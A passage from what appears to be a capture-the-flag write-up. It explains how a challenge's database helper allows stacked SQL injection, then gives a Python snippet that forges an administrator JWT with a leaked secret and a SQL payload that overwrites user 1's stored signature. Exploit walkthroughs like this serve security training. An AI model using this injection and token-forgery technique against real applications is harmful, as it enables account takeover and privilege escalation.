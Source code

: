 By having a look at `challenge/controller/application/util/database` we discorver that this query is vulnerable to SQL injection.

```py
def query(self, query, args=(), one=False, multi=False):
    cursor = self.connection.cursor()
    results = None

    if not multi:
        cursor.execute(query, args)
        rv = [dict((cursor.description[idx][0], value)
            for idx, value in enumerate(row)) for row in cursor.fetchall()]
        results = (rv[0] if rv else None) if one else rv
    else:
        results = []
        queries = query.split(";")
        for statement in queries:
            cursor.execute(statement, args)
            rv = [dict((cursor.description[idx][0], value)
                for idx, value in enumerate(row)) for row in cursor.fetchall()]
            results.append((rv[0] if rv else None) if one else rv)
            self.connection.commit()

    return results
```

Checking out the `query` method also shows us that a stacked query injection can be achieved if a `;` semicolon is provided in the payload.

### Creating the JWT and inserting the malicious signature

After leaking the JWT secret we use it to create a JWT that represents an arbitrary administrator user.

```py
import jwt

payload = {
    "user_id": 1,
    "username": "lean",
    "account_type": "administrator"
}

print(jwt.encode(payload, secret, algorithm="HS256"))
```

Now we extract it's signature to create the SQLi payload.

SQL payload:

```
';UPDATE signatures SET signature = HD65BgC4jE073n66hV9BrubvkUu5E3kjIQdist08CwY WHERE user_id = 1#
```

The signature must be hex-encoded and the SQL payload must be URL-encoded because the injection must pass through a URL parameter.
